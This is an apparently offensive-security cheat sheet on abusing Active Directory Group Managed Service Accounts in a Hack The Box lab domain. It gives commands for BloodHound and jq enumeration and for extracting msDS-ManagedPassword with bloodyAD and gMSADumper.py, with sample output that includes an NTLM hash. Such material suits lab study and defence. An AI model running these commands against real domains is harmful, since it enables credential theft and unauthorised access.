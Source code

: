# Group Managed Service Accounts


## Detection
 * Bloodhound Data
 ```bash
 cat <Users.json> | jq '.data[].Properties | select(.samaccountname) | "\(.pwdlastset):\(.samaccountname)"' -r|sort -n
 ```
 Example:
 ```bash
 loot cat 20241130134537_users.json | jq '.data[].Properties | select(.samaccountname) | "\(.pwdlastset):\(.samaccountname)"' -r|sort -n
 1717583255:krbtgt
 1717584108:gMSA01$
 1717594268:G.Viola
 1717594268:L.Bianchi
 1717594268:M.Rossi
 1717594268:R.Verdi
 1717621693:C.Neri
 1717681527:svc_ark
 1717681527:svc_ldap
 1717757654:C.Neri_adm
 1717846494:Administrator
 1730896036:P.Rosa
 1731507413:Guest
 1732621230:L.Bianchi_adm
 1733002326:svc_sql
 ```
## Exploitation
### BloodyAD
 * Getting the hash:
 ```bash
 bloodyAD --host dc01.vintage.htb -u 'fs01$' -p 'fs01' -d vintage.htb -k get object 'gmsa01$' --attr msDS-ManagedPassword
 ```
 * Example
 ```bash
 bloodyAD --host dc01.vintage.htb -u 'fs01$' -p 'fs01' -d vintage.htb -k get object 'gmsa01$' --attr msDS-ManagedPassword 
 distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
 msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
 msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
```
### [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper)
> gMSADumper.py requires LDAPS, which normally won't be available through linux
 ```bash
 # With Username and password
 python3 gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
 
 # With Kerberos
 python3 gMSADumper.py -k -d vintage.htb -l dc01.vintage.htb
 ```

